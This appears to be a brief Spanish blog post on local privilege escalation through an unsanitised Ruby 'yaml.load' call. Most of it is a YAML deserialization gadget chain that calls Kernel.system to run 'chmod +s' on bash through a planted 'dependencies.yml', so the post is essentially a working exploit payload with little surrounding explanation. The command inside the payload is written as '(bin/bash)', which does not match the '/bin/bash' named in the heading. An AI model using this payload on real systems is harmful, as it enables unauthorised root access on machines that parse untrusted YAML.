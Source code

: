 ```yaml
---
layout: post
author: 4akatun
---
```


# Forma de otorgar privilegio *SUID* **/bin/bash** -> aprovechando **'yaml.load'** en un script *'.rb'* que no esta sanitizado.
### En este caso este script esta en un archivo ***'dependencies.yml'*** al que apunta yaml.load para leer su interior y ejecutarlo.

* Script en ruby

```ruby

- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
        socket: &1 !ruby/object:Gem::Request
          sets: !ruby/object:Net::WriteAdapter
              socket: !ruby/module 'Kernel'
              method_id: :system
          git_set: "chmod +s (bin/bash)"
        method_id: :resolve
```
